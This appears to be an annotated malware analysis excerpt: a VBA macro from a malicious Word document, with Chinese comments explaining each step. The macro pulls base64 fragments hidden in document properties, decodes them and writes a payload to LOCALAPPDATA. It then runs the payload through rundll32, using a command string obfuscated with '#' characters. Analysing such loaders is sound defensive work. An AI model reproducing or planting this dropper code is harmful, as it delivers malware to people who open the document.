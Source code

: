 ```vbscript
        decodedBytes(outputIndex) = CByte("&H" & Mid(groupBase64Number, 1, 2))
        outputIndex = outputIndex + 1
        If realBytesInThisGroup > 1 Then
            decodedBytes(outputIndex) = CByte("&H" & Mid(groupBase64Number, 3, 2))
            outputIndex = outputIndex + 1
            If realBytesInThisGroup > 2 Then
                decodedBytes(outputIndex) = CByte("&H" & Mid(groupBase64Number, 5, 2))
                outputIndex = outputIndex + 1
            End If
        End If
    Next
      
    DecodeBase64 = decodedBytes
End Function
     
Private Sub Execute()  #执行函数
    Dim Path As String
    Dim FileNum As Long
    Dim bin() As Byte
    Dim cmdLine As String
    Const HIDDEN_WINDOW = 1
    strComputer = "."
    
    'extract and decode encoded file  进行提取与解码  分别提取了 文件 属性  详细信息里数据（均为base64段）为  主题  公司  
    Subject = ActiveDocument.BuiltInDocumentProperties.Item("Subject") #主题 数据
    Subject = Right(Subject, Len(Subject) - 50)
    
    Company = ActiveDocument.BuiltInDocumentProperties.Item("Company")  #公司 数据
    Company = Right(Company, Len(Company) - 50)
    
    Category = ActiveDocument.BuiltInDocumentProperties.Item("Category") #类别  数据
    Category = Right(Category, Len(Category) - 50)
    
    Hyperlink_base = ActiveDocument.BuiltInDocumentProperties.Item("Hyperlink base") # 翻译是超链接基础，实际看 文件 名称哪里 也有hash段  看了相关文章 有点不一样 需要去看下提取方法
    Hyperlink_base = Right(Hyperlink_base, Len(Hyperlink_base) - 50)
    
    Comments = ActiveDocument.BuiltInDocumentProperties.Item("Comments") #注释
    Comments = Right(Comments, Len(Comments) - 50)
    
    
    base64 = Subject + Company + Category + Hyperlink_base + Comments
    bin = DecodeBase64(base64) #进行 base64 解密

    'save decoded file
    Path = Environ("LOCALAPPDATA") + "\" + "netwf" + ".dat"  #生成文件名路径
    
    PathPld = Environ("LOCALAPPDATA") + "\" + "netwf" + ".dll" #生成文件名路径
    PathPldBt = Environ("LOCALAPPDATA") + "\" + "netwf" + ".bat" #生成文件名路径
    
    If Dir(PathPld, vbHidden) <> "" Then  #设置 隐藏属性
        Exit Sub
    End If
    
    FileNum = FreeFile  
    Open Path For Binary Access Write As #FileNum 生成文件
    Put #FileNum, 1, bin
    Close #FileNum
        #混淆 cmd 段
    cmdLine = "C:\" + "###" + "Win" + "###" + "dow" + "###" + "s\Sy" + "###" + "ste" + "###" + "m32\" + "run" + "###" + "dll" + "32" + "#" + ".exe " + """" + Path + """" + "###" + ",KlpSvc"
        WordBasic.[Shell] Replace(cmdLine, "#", "")  # 替换 执行字符串
    
```